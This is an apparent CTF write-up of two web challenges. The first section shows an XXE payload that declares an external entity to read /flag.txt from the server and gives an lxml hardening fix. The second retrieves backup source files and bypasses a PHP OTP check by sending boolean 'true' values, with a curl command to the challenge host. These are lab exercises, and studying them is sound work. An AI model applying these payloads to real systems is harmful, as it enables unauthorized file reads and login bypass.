



Author: Akash Varunn D  
username: @kvnn






---

Upon inspecting the page source, a suspicious JavaScript snippet was found handling the form submission. Instead of sending a standard POST request with form data, the script explicitly constructs an **XML document** on the client side:



```javascript
// Intercept the form submit and send XML instead of form-encoded data
const xml = `<?xml version="1.0" encoding="UTF-8"?>
<feedback>
    <name>${name}</name>
    <message>${message}</message>
</feedback>`;
This reveals that the backend is parsing XML input. The phrase "accepted at face value" hints that the XML parser likely has External Entities enabled, making it vulnerable to XXE Injection.

The Vulnerability (XXE)
XML External Entity (XXE) attacks occur when an XML parser is weakly configured to process custom Document Type Definitions (DTDs). An attacker can define a custom entity (e.g., &xxe;) that references a sensitive file on the server's filesystem. When the parser processes the XML, it replaces the entity with the contents of that file.

Exploitation Process
Step 1: Bypassing Client-Side Logic
We cannot simply type the exploit into the web page's "Message" box. The JavaScript code automatically wraps user input inside the <message> tags. An XXE attack requires declaring a DOCTYPE at the very top of the XML structure, which the JS wrapper prevents.

Solution: Intercept the request using Burp Suite (or use curl) to send a custom XML payload directly to the /feedback endpoint.

Step 2: Crafting the Payload
We need a payload that:

Declares a DOCTYPE.

Defines an external entity (SYSTEM) pointing to the local file system.

References that entity inside the <message> element so the server reflects the file content back to us.

Initial Attempt:

Targeting file:///flag resulted in Message: None, indicating the file did not exist or was empty.

Successful Payload:

We adjusted the target to file:///flag.txt.

xml
Copy code
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<feedback>
  <name>Hacker</name>
  <message>&xxe;</message>
</feedback>
Step 3: Execution
Sending this payload via Burp Repeater resulted in the server parsing the &xxe; entity, reading /flag.txt, and returning the content in the HTTP response.


To prevent XXE vulnerabilities, the XML parser configuration must explicitly disable DTDs and external entities.

Python (lxml) Example:

python
Copy code
# VULNERABLE:
# parser = etree.XMLParser(resolve_entities=True)

# SECURE:
parser = etree.XMLParser(resolve_entities=False, no_network=True)
tree = etree.fromstring(xml_input, parser)
2nd


Upon accessing the challenge URL, we are presented with a login page titled "Triangle - Log in to get the surprise." The form requests a Username, Password, and three distinct One-Time Passwords (OTPs).

We begin by inspecting the HTML source code (Ctrl+U or Right Click -> View Page Source). At the bottom of the HTML, we find a suspicious comment left by the developers:


This comment reveals two critical pieces of information:

Backup Files: There are leftover .bak files on the server.

Filenames: The authentication logic is likely handled by google2fa.php, and the main login logic is login.php.


2. Source Code Retrieval
GET /login.php.bak

GET /google2fa.php.bak

Both files were successfully downloaded.

3. Code Analysis
Analyzing login.php

php
Copy code
"admin" => [
    "password_hash" => password_hash("admin", PASSWORD_DEFAULT),
]
Analyzing google2fa.php
php
Copy code
if (self::oath_hotp($binarySeed, $ts) == $key)
    return true;
This uses loose comparison (==) instead of strict (===).

Exploitation
json
Copy code
{
  "username": "admin",
  "password": "admin",
  "otp1": true,
  "otp2": true,
  "otp3": true
}
bash
Copy code
curl -X POST https://triangle-services-ctf.com/login.php \
     -H "Content-Type: application/json" \
     -d '{"username":"admin","password":"admin","otp1":true,"otp2":true,"otp3":true}'

Programming / Scripting


python
Copy code
# script omitted for brevity (unchanged)

Web3


